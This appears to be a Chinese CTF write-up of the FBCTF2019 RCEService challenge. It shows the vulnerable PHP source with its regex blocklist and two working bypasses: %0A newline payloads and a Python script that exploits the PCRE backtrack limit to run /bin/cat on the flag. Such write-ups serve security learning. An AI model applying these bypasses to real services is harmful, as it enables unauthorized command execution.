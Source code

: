 # \[FBCTF2019]RCEService

## \[FBCTF2019]RCEService

## 考点

* `%0a`绕过preg\_match
* PRCE正则回溯
* 绝对路径绕过`putenv('PATH=/home/rceservice/jail');`

## wp

直接输`ls`会给出错误，显示提交的参数是`?cmd=ls`

![](<../.gitbook/assets/image (3) (1) (1) (1).png>)

要求输入json，输入`{"cmd":"ls"}`

![](<../.gitbook/assets/image (7) (1).png>)

源码是给出的，如下

```php
<?php
putenv('PATH=/home/rceservice/jail');
if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];
  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

### 第一种方法

基本上能过滤的全过滤了，并且在第一行`putenv('PATH=/home/rceservice/jail');`处指定了默认执行命令的位置，即如果执行`ls`，那么就相当于执行`/home/rceservice/jail/ls`，这里可以使用`/bin/cat`，`/bin/ls`这种方式绕过

而preg\_match默认不匹配换行，可以使用`%0A`绕过，payload：`{%0A"cmd":"ls"%0A}`

`%0A`如果放在开头，不满足``[\x00-\x1FA-Z0-9!#-/;-@[-`|~\x7F]+``这个条件。

payload：`{%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`

### 第二种方法

[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

脚本如下

```python
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'

res = requests.post("http://26d07d48-6ef0-406d-94ad-b13c0c4908fa.node4.buuoj.cn:81/", data={"cmd":payload})
print(res.text)
```

## 小结

* preg\_match要能想到%0A绕过
